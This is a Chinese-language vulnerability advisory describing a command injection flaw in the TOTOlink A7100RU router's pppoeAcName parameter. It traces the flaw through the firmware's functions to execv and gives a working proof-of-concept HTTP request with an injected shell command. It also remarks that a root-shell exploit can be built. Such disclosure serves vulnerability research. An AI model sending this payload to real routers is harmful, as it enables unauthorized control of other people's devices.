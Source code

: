 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps40.jpg) 

 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720200422160](img/image-20220720200422160.png)

程序通过获取pppoeAcName参数下的内容传递给v35，之后将v35带入到Uci_Set_Str_By_Idx函数中

![image-20220720200442763](img/image-20220720200442763.png)

在Uci_Set_Str_By_Idx函数中，程序将a5带入到Uci_Set_Str函数中

![image-20220720200500520](img/image-20220720200500520.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720200516414](img/image-20220720200516414.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWanIeCfg",
"pppoeAcName":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps41.png) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps42.png) 

 
